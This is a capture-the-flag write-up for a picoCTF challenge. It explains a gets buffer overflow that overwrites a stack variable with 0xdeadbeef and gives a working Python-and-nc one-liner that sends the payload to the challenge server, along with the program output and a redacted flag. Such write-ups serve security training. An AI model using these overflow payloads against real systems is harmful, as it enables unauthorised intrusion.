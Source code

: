 Quite an easy vulnerability exploitation
We receive a binary that is served through a socket server

Loaded up to binary ninja
<img width="701" height="537" alt="code" src="https://github.com/user-attachments/assets/3367d915-e620-4c67-80c2-90a42c961e37" />

It has a classic `gets` buffer overflow. 
The binary is a 64bit binary and the `gets` function is limiting us from sending zeroes...
So we won't be able to send a ROP chain based on the program itself (binary has no PIE) because of the multiple zeroes we'll have to fill in...

Instead of that we can overflow the code variable which is zeroed at the start.
As you can see the stack diff between the buf and the code is 0x108
<img width="455" height="283" alt="stack" src="https://github.com/user-attachments/assets/0e52daea-6bb4-47e8-91c8-fefe00ca015f" />


So we'll only have to make code's value `0xdeadbeef` and we'll be able to lead the program to the system call that reads the `flag.txt`

```
python3 -c 'import sys, struct; sys.stdout.buffer.write(b"\xFF" * 0x108 + struct.pack("<L", 0xdeadbeef) + b"\n")' | nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{XXXXXXXXXXXXXXXXX}
```
